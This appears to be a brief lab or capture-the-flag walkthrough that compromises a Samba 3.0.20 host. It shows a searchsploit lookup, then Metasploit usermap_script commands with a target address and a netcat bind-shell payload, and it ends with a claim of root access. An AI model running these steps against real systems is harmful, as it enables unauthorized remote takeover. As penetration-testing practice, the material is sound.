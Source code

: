 searching exploit on searchsploit program

```
searchsploit samba 3.0.20  
Samba 3.0.20 < 3.0.25rc3 - 'Username' map s | unix/remote/16320.rb
```

we found `usermap_script` can be used to exploit samba 3.0.20 machine . open `msfconsole` search `samba` 

<img src="../img/Pasted image 20240625122528.png" alt="Example Image" width="1080"/>

set the required options

```
use 0
set rhost 192.168.9.4
set rport 445

# start nc listenser at 4444 @another_sh
set payload payload/cmd/unix/bind_netcat 
run
```

we has been pwned the machine , and got the root flag

<img src="../img/Pasted image 20240625122759.png" alt="Example Image" width="1080"/>
